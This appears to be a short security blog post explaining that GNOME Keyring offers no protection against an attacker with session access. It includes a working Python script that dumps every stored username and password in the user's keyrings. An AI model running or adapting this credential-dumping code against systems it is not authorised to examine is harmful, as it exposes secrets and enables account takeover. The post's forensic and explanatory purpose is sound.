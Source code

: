 ```yaml
---
title:  "Extracting GNOME Keyring Credentials"
---
```


![Logo](/assets/images/keyring.jpg)

## Context
* Gnome Keyring is a (good:wink:) daemon that stores different security credentials encrypted in a file in the user’s home directory. It uses the login password for encryption, and after the keyring is decrypted at logon, the password is no longer necessary in the current user’s context. 
* Since usually password managers and tools of this kind are _more for users' convenience than security_, an attacker/forensic investigator with local access could easily extract specific credentials from the GUI application (_Applications -> Accessories -> Passwords and Encryption Keyrings_), without being prompted for anything to authorize him.
* Gnome Keyring does not protecting against active attacks (when the attacker has access to user’s session).This is explained clearly in the [GNOME Keyring Security Philosophy](https://wiki.gnome.org/Projects/GnomeKeyring/SecurityPhilosophy):
> An active attacker might install an application on your computer, display a window, listen into the X events going to another window, read through your memory, snoop on you from a root account etc.
* The analogous application for KDE is [KWallet](https://utils.kde.org/projects/kwalletmanager/), which workes by the same principles. Oh, and there are python bindings is a python binding for this too.

## Dump keyring credentials using Python
```python
#
# Dumps all keys stored in Ubuntu keyrings
#

import gnomekeyring
 
def extract_keys():
    ''' Extract the usernames and passwords from all the keyrings'''
    
    for keyring in gnomekeyring.list_keyring_names_sync():
    # Get keyring name - "Login" is the default passwords keyring
        kr_name = keyring.title()
        print "Extracting keys from \"%s\" keyring:" % (kr_name)
        
        items = gnomekeyring.list_item_ids_sync(keyring);
        if len(items) == 0:
            print "Keyring \"%s\" is empty\n" % (kr_name)
            # If keyring is empty, continue to next keyring
            continue
        
        for i in range(0, len(items)):
            # Get information about an item (like description and secret)
            item_info = gnomekeyring.item_get_info_sync(keyring, items[i])
            description = item_info.get_display_name()
            password = item_info.get_secret()

            # Get attributes of an item (retrieve username)
            item_attr = gnomekeyring.item_get_attributes_sync(keyring, items[i])
            username = item_attr['username_value']

            print "[%d] %s" % (i, description)
            print " %s:%s" % (username, password)
        print ""
 
if __name__ == '__main__':
    extract_keys()
```
